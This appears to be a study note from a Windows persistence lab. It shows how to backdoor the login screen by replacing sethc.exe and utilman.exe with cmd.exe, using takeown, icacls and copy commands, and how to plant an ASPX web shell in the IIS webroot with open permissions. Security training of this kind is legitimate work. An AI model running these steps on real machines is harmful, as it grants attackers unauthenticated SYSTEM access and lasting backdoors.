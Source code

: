 

## **Backdooring the Login Screen / RDP**
If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

### Sticky Keys
When pressing key combinations like `CTRL + ALT + DEL`, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time. In that sense, if sticky keys are active, you could press and release `CTRL`, press and release `ALT` and finally, press and release `DEL` to achieve the same effect as pressing the `CTRL + ALT + DEL` combination.

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` 5 times. After inputting the shortcut, we should usually be presented with a screen that looks as follows:
		![[Pasted image 20240911031921.png]]

After pressing `SHIFT` 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`. If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.

A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:
```shell-session
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

### Utilman
Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
		![[Pasted image 20240911032130.png]]

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again. 

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:
```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

## **Persisting Through Existing Services**
If you don't want to use Windows features to hide a backdoor, you can always profit from any existing service that can be used to run code for you. This task will look at how to plant backdoors in a typical web server setup. Still, any other application where you have some degree of control on what gets executed should be backdoor-able similarly. The possibilities are endless!

### Web Shells
The usual way of achieving persistence in a web server is by uploading a web shell to the web directory. This is trivial and will grant us access with the privileges of the configured user in IIS, which by default is `iis apppool\defaultapppool`. 

Even if this is an unprivileged user, it has the special `SeImpersonatePrivilege`, providing an easy way to escalate to the Administrator using various known exploits. 

Start by downloading an ASP.NET web shell. A ready to use web shell is provided [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx), but feel free to use any you prefer. Transfer it to the victim machine and move it into the webroot, which by default is located in the `C:\inetpub\wwwroot` directory:

```shell-session
C:\> move shell.aspx C:\inetpub\wwwroot\
```

**Note:**
	Depending on the way you create/transfer `shell.aspx`, the permissions in the file may not allow the web server to access it. If you are getting a Permission Denied error while accessing the shell's URL, just grant everyone full permissions on the file to get it working. You can do so with `icacls shell.aspx /grant Everyone:F`.

We can then run commands from the web server by pointing to the following URL: `http://MACHINE_IP/shell.aspx`
	![[Pasted image 20240911033854.png]]

Note:
	While web shells provide a simple way to leave a backdoor on a system, it is usual for blue teams to check file integrity in the web directories. Any change to a file in there will probably trigger an alert!

